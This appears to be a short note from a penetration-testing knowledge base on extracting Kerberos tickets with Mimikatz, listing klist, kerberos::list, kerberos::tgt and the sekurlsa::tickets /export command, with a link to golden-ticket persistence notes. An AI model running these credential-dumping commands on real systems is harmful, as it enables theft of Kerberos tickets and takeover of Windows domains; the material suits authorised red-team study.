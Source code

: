 # Mimikatz

## Extracting Tickets

Check if tickets are present

```
C:\> klist

mimikatz # kerberos::list

mimikatz # kerberos::tgt
```

Extract tickets

```
mimikatz # sekurlsa::tickets /export
```

---
## References

- [[06 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Windows/Domain Persistence/Create Ticket/Golden Ticket/C2 Frameworks/Metasploit]]